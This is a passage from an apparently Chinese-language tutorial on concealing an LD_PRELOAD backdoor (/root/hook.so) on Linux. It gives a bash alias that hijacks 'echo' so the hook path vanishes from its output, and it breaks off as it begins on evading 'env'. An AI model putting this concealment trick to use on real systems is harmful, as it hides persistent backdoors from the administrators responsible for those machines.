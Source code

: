 添加后门后是这样：

[![](assets/1708920000-c43cb9100543ffcf526b1715b9b73c5a.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214162519748.png)

通过 alias 劫持回显，将/root/hook.so 替换为空即可

```plain
alias echo='func(){ echo $* | sed "s!/root/hook.so! !g";};func'
```

这时候通过 echo 输出$LD\_PRELOAD 也无法察觉

##### env 对抗

没有添加后门是这样：

[![](assets/1708920000-2bcc887b69811b72fbef78b4dcf9b446.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214162928776.png)

添加后门后是这样：
